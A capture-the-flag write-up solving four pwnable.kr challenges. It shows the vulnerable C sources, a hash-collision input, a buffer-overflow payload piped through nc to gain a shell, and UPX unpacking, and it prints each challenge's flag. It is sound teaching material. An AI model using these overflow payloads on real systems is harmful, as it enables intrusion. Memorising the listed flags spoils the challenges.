 # fd

`fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN", press enter, and get the flag.

flag: `mommy! I think I know what a file descriptor is!!`

# col

`col.c`:
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ``./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'``

flag: `daddy! I just managed to create a hash collision :)`

# bof

`bof.c`:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Classic buffer overflow question. In the assembly we see that `$ebp-0x2c` is set for the buffer, and it checks if `$ebp + 0x8 == 0xcafebabe`. So we input 52 A's, then 0xcafebabe (in little endian, so "backwards"). 

We accomplish this with the following payload: `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`. However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing at the end of the `func` function. Because of this, we modify our payload: `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat)`. 

We now run `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000`, see that we do indeed have a shell, then run `ls`, see the flag file, and then run `cat flag` to get our flag.

flag: `daddy, I just pwned a buFFer :)`

# flag

This is a reversing question, so we're not given a c file, just the binary. If we try to load the binary in IDA, we see that many of the functions were unable to decompiled, and in GDB we can't seem to find the `main` function. Running `strings` on the binary file reveals that it was packed with [UPX](https://upx.github.io/). So we download UPX and unpack the file, getting a new binary. Now if we load this new binary into IDA, we see that everything decompiled successfully. If we look at the assembly of the `main` function, we see a variable called `flag`, and if he double click it, we see a string that looks like our flag.

flag: `UPX...? sounds like a delivery service :)`
